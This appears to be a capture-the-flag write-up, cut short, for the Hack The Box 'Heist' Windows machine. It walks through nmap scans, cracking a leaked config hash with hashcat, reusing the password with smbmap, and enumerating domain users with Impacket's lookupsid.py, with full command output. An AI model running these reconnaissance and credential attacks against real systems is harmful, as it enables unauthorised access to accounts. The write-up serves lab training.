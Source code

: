 # Common Enumeration
## NMAP
All ports scan without service version and os detection.
```bash
❯ sudo nmap -p- --min-rate 10000 -oA nmap/heist 10.10.10.149
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 00:01 PKT
Nmap scan report for 10.10.10.149
Host is up (0.18s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 14.85 seconds
```
Detected ports scan with service version and os detection.
```bash
❯ sudo nmap -p80,135,445,5985 -A -oA nmap/heist_version 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 00:06 PKT
Nmap scan report for 10.10.10.149
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-10T19:06:32
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   112.89 ms 10.10.14.1
2   113.05 ms 10.10.10.149

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.96 seconds
```
Logging in as guest gives config.txt file.
![[Pasted image 20210711013543.png]]
This file contains hash `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` which when cracked using hashcat gives `stealth1agent` using command `hashcat -m 500 hash.hash /content/drive/MyDrive/rockyou.txt`.
http://10.10.10.149/issues.php webpage has a user `Hazard` which can be used with cracked hash to access shares of user `Hazard`.
`smbmap` can be used to know the shares of `Hazard` user.
```bash
❯ smbmap -H 10.10.10.149 -u Hazard -p stealth1agent
[+] IP: 10.10.10.149:445        Name: 10.10.10.149
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
Found some more users via Impacker module lookupsid.py.
```bash
❯ python3 /home/kali/.local/bin/lookupsid.py SUPPORTDESK/Hazard:stealth1agent@10.10.10.149
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```



